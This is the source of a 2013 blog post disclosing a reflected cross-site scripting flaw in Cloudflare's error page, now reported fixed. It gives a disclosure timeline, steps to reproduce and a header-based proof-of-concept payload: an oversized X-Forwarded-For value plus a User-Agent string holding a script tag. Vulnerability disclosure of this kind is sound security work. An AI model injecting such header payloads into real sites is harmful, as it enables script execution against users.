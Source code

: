 ```yaml
---
layout: post
title: "[DAHAX-2013-001] Cloudflare XSS Vulnerability"
date: '2013-08-15T08:00:00+10:00'
tags:
- dahax-2013-001
- dahax
- '2013'
- vulnerability
- notification
- cloudflare
- xss
- x-forwarded-for
- user-agent
categories:
- devalias
tumblr_url: http://devalias.tumblr.com/post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
redirect_from: /post/58217238426/dahax-2013-001-cloudflare-xss-vulnerability
disqus: true
webmention: true
crosspost_to_medium: false
---
```

**Reference Number:** DAHAX-2013-001 (/dev/alias/hacks 2013-001)

### Notification Timeline

* 10/07/2013, Request# 38713 (https://support.cloudflare.com/anonymous_requests/new)
* 10/07/2013, Vendor looking into issue
* 16/07/2013, Updated vendor with new details (Length: 101 instead of 72)
* 16/07/2013, Vendor requested that I test again
* No response from vendor
* 01/08/2013, Tested again, vulnerability fixed
* 22/08/2013, Posted details to full-disclosure
* 22/08/2013, Vendor confirmed issue has been fixed

**Details Published:** 14/08/2013 (http://blog.devalias.net)

## What?

* Reflected XSS (cross site scripting) attack

## Where's Affected?

* Theoretically it seems that any page that uses cloudflare will be affected.
  * Eg: [http://www.cloudflare.com/](https://www.cloudflare.com/)

## How?

* **To bring up the vulnerable page**
  * Set your X-Forwarded-For header to 101+ characters
  * Eg:

```
X-Forwarded-For: AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDEEEEEEEEEEFFFFFFFFFFGGGGGGGGGGHHHHHHHHHHIIIIIIIIIIJJJJJJJJJJK
```

* Load a site using cloudflare
* You should end up on "DNS Points to Prohibited IP" page
  * **To trigger the XSS**
* Set your User-Agent string to the XSS attack
  * Eg:

```
User-Agent: USER-AGENT being tested for XSS..<script>alert(''Vulnerable to XSS via USER-AGENT header [Found by devalias.net]'')</script>
```

* **The whole attack**
  * Ensure your X-Forwarded-For and User-Agent headers are configured as above
  * Navigate to a page using cloudflare
  * ???
  * Profit!

## Who?

Discovered by [Glenn 'devalias' Grant](http://www.devalias.net/) (glenn@devalias.net)

## Responsible Disclosure Notice

* Following in the footsteps of Google's vulnerability disclosure timeline, unless otherwise agreed to beforehand, I reserve the right to publicly announce the details of any discovered vulnerabilities 7 days post notification.
  * **Google's Rationale:** "Seven days is an aggressive timeline and may be too short for some vendors to update their products, but it should be enough time to publish advice about possible mitigations, such as temporarily disabling a service, restricting access, or contacting the vendor for more information. As a result, after 7 days have elapsed without a patch or advisory, we will support researchers making details available so that users can take steps to protect themselves. By holding ourselves to the same standard, we hope to improve both the state of web security and the coordination of vulnerability management." - [Google](https://googleonlinesecurity.blogspot.com.au/2013/05/disclosure-timeline-for-vulnerabilities.html)
